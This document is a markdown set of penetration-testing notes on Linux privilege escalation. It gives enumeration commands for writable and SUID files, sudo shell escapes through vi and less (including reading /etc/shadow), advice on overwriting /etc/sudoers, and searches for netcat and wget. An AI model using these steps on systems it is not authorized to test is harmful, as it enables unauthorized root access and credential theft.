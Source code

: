 # Privilege Escalation

So you have a limited shell on the machine. But it is limited. For example: 

You can't hide very effectivly. 
You can't bind ports below 1024.
Read and write any file
Persist easily between reboots.

These are all things we want to be able to do.
Watch this video!
http://www.irongeek.com/i.php?page=videos/bsidesaugusta2016/its-too-funky-in-here04-linux-privilege-escalation-for-fun-profit-and-all-around-mischief-jake-williams

http://www.slideshare.net/nullthreat/fund-linux-priv-esc-wprotections

http://netsec.ws/?p=309

**Don't use binary exploits if you can avoid it. If you use it it might crash the machine. So binary exploits should be the last resort. Always use a simpler priv-esc if you can. They can also produce a lot of stuff in the sys.log**

## Linux

### Weak or reused passwords

If there is a web-server, check the connection to the database. Try that password. Also log into the database with the user you found. Is there a admin-account that might be reusing passwords?

Config-files
postfix
newsbeauter

### Configuration mistakes

#### Programs running as root
**Web-server**
Running as root

**Mysql**

#### Bad path configuration
Putting . in the path

#### **Cronjob** 
With privileges running script that are editable for other users. 

#### World writable scripts invoked as root
World/user writable scripts that are invoked by root can me rewritten to escalate privileges.

Also check scripts that are called by these scripts.

```
#World writable files directories
find / -writable -type d 2>/dev/null
find / -perm -222 -type d 2>/dev/null
find / -perm -o w -type d 2>/dev/null

# World executable folder
find / -perm -o x -type d 2>/dev/null

# World writable and executable folders
find / \( -perm -o w -perm -o x \) -type d 2>/dev/null
```


#### World/user writable binaries

#### Weak permissions on LD_preload

#### Homemade crappy suid programs
**SUID files**

SUID is a bit that you can set on a file. If you run a binary the binary is run as the user who is running it. But if the binary has the SUID-bit it will be run as the owner of that binary. This can be abused.

Here is how you find SUID files:
```
find / -perm -u=s -type f 2>/dev/null
```

Run ltrace on them to see what they do.

#### Setuid/setuig

SUID is a bit that you can set on a file. If you run a binary the binary is run as the user who is running it. But if the binary has the SUID-bit it will be run as the owner of that binary. This can be abused.
Any editor with a setudi/setuig can be abused.

**nmap**
SUID on nmap.

Find them

```
#Find SUID
find / -perm -u=s -type f 2>/dev/null

#Find GUID
find / -perm -g=s -type f 2>/dev/null
```

### Abusing sudo-rights

If you have a shell that has limited sudo programs you might still be able to use it. Any program that can write or overwrite can be used. If you have `cp` you can overwrite `/etc/shadow` or `/etc/sudoers`. 
**ht**
The text/binary-editor HT running as sudo

**nano**

**vi**
With vi it is even easier. Just open vi
```
sudo vi
:shell
```
And you have shell.

**less**
From less you can go into vi, and then into a shell
```
sudo less /etc/shadow
v
:shell
```

**more**
You need to run more on a file that is bigger than your screen.
```
sudo more /home/pelle/myfile

```


### Software vulnerabilites

Software vulnerabilites can lead to priv-esc, like vulnerabiliteis in:
- Kernel
```
uname -a
/etc/issue*
/etc/release
```

**Tools**
```
# Programming tools
find / -name perl*
find / -name python*
find / -name gcc*
find / -name cc

#Upload tools
find / -name wget
find / -name nc*
find / -name netcat*
find / -name tftp*
find / -name ftp
```



#### Binary expoits against root owned binaries
- sudo
- Chrootkit


## Windows

## References
https://www.trustwave.com/Resources/SpiderLabs-Blog/My-5-Top-Ways-to-Escalate-Privileges/